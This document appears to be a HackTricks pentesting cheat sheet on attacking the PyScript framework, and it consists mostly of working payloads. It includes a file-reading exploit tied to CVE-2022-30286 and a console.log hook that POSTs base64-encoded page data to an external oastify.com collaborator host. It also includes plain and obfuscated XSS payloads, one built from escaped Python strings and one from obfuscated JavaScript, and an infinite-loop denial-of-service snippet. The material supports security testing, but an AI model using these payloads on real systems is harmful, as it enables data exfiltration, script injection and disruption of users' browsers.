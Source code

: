 # Pyscript

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## PyScript Pentesting Guide

PyScript is a new framework developed for integrating Python into HTML so, it can be used alongside HTML. In this cheat sheet, you'll find how to use PyScript for your penetration testing purposes.

### Dumping / Retrieving files from the Emscripten virtual memory filesystem:

`CVE ID: CVE-2022-30286`\
\
Code:

```html
<py-script>
        with open('/lib/python3.10/site-packages/_pyodide/_base.py', 'r') as fin:
        out = fin.read()
        print(out)
</py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166847974-978c4e23-05fa-402f-884a-38d91329bac3.png)

### [OOB Data Exfiltration of the Emscripten virtual memory filesystem (console monitoring)](https://github.com/s/jcd3T19P0M8QRnU1KRDk/\~/changes/Wn2j4r8jnHsV8mBiqPk5/blogs/the-art-of-vulnerability-chaining-pyscript)

`CVE ID: CVE-2022-30286`\
\
Code:

```html
   <py-script>
x = "CyberGuy"
if x == "CyberGuy":
    with open('/lib/python3.10/asyncio/tasks.py') as output:
        contents = output.read()
        print(contents)
print('<script>console.pylog = console.log; console.logs = []; console.log = function(){     console.logs.push(Array.from(arguments));     console.pylog.apply(console, arguments);fetch("http://9hrr8wowgvdxvlel2gtmqbspigo8cx.oastify.com/", {method: "POST",headers: {"Content-Type": "text/plain;charset=utf-8"},body: JSON.stringify({"content": btoa(console.logs)})});}</script>')
   </py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848198-49f71ccb-73cf-476b-b8f3-139e6371c432.png)

### Cross Site Scripting (Ordinary)

Code:

```python
<py-script>
        print("<img src=x onerror='alert(document.domain)'>")
</py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848393-e835cf6b-992e-4429-ad66-bc54b98de5cf.png)

### Cross Site Scripting (Python Obfuscated)

Code:

```python
<py-script>
sur = "\u0027al";fur = "e";rt = "rt"
p = "\x22x$$\x22\x29\u0027\x3E"
s = "\x28";pic = "\x3Cim";pa = "g";so = "sr"
e = "c\u003d";q = "x"
y = "o";m = "ner";z = "ror\u003d"

print(pic+pa+" "+so+e+q+" "+y+m+z+sur+fur+rt+s+p)
</py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848370-d981c94a-ee05-42a8-afb8-ccc4fc9f97a0.png)

### Cross Site Scripting (JavaScript Obfuscation)

Code:

```html
<py-script>
   prinht("<script>var _0x3675bf=_0x5cf5;function _0x5cf5(_0xced4e9,_0x1ae724){var _0x599cad=_0x599c();return _0x5cf5=function(_0x5cf5d2,_0x6f919d){_0x5cf5d2=_0x5cf5d2-0x94;var _0x14caa7=_0x599cad[_0x5cf5d2];return _0x14caa7;},_0x5cf5(_0xced4e9,_0x1ae724);}(function(_0x5ad362,_0x98a567){var _0x459bc5=_0x5cf5,_0x454121=_0x5ad362();while(!![]){try{var _0x168170=-parseInt(_0x459bc5(0x9e))/0x1*(parseInt(_0x459bc5(0x95))/0x2)+parseInt(_0x459bc5(0x97))/0x3*(-parseInt(_0x459bc5(0x9c))/0x4)+-parseInt(_0x459bc5(0x99))/0x5+-parseInt(_0x459bc5(0x9f))/0x6*(parseInt(_0x459bc5(0x9d))/0x7)+-parseInt(_0x459bc5(0x9b))/0x8*(-parseInt(_0x459bc5(0x9a))/0x9)+-parseInt(_0x459bc5(0x94))/0xa+parseInt(_0x459bc5(0x98))/0xb*(parseInt(_0x459bc5(0x96))/0xc);if(_0x168170===_0x98a567)break;else _0x454121['push'](_0x454121['shift']());}catch(_0x5baa73){_0x454121['push'](_0x454121['shift']());}}}(_0x599c,0x28895),prompt(document[_0x3675bf(0xa0)]));function _0x599c(){var _0x34a15f=['15170376Sgmhnu','589203pPKatg','11BaafMZ','445905MAsUXq','432bhVZQo','14792bfmdlY','4FKyEje','92890jvCozd','36031bizdfX','114QrRNWp','domain','3249220MUVofX','18cpppdr'];_0x599c=function(){return _0x34a15f;};return _0x599c();}</script>")
 </py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848442-2aece7aa-47b5-4ee7-8d1d-0bf981ba57b8.png)

### DoS attack (Infinity loop)

Code:

```html
    <py-script>
      while True:
         print("&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;")
   </py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848534-3e76b233-a95d-4cab-bb2c-42dbd764fefa.png)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
